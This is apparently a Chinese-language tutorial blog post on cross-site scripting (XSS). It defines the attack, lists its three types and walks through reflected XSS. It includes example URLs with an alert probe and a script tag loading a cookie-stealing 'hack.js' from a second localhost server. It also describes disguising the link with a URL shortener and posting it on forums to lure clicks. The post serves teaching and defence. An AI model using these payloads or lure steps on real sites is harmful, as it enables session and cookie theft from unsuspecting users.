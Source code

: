 ```yaml
---
title: XSS 攻击
tags: ['web攻击']
categories: ['web安全']
date: 2022-02-08 09:34:35
---
```


# 1. XSS 攻击

XSS，全称Cross-Site Scripting，跨站脚本攻击，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可以获得用户的敏感信息，如：cookie等，进而危害数据安全。

XSS攻击的本质是：恶意代码未经过滤，与网站正常的代码混在一起；浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行。

XSS攻击可能造成的危害：

- 窃取Cookie或者本，发送恶意请求
- 在网页插入恶意内容
- 获取网站和用户个人信息
- 其他利用用js脚本能造成的危害

## XSS攻击分类

根据攻击的来源，XSS 攻击可分为存储型、反射型和 DOM 型三种。

|类型|存储区|插入点|
|-|-|-|
|反射型XSS|URL|HTML|
|存储型XSS|后端数据库|HTML|
|DOM型XSS|后端数据库/前端存储/URL|前端JavaScript|

### 反射型XSS（url参数直接注入）

实现攻击步骤：

1. alert尝试（看该网站是否有 XSS 漏洞）
2. 构造攻击url
3. 短域名伪造（通过短域名生成网站把上面构造的 XSS 攻击url转换成看似正常的url）
4. 把构造好的url放到贴吧、论坛或微博等网站，加上诱惑性的语言描述，吸引用户点击（这一步很关键，因为只有用户点击了该url链接，才可能造成攻击）
5. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
6. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。

反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。

例如：

```js
// 正常url
http://localhost:3000/?from=china

// 1. alert尝试
http://localhost:3000/?from=<script>alert(3)</script>

// 2. 构造攻击url：hack.js实现获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>

// 3. 短域名伪造：通过百度短网址网站（https://dwz.cn/）缩短url 
// 4. 把构造好的url放到贴吧
// 5. 用户打开带有恶意代码的 URL
// 后续步骤...
```

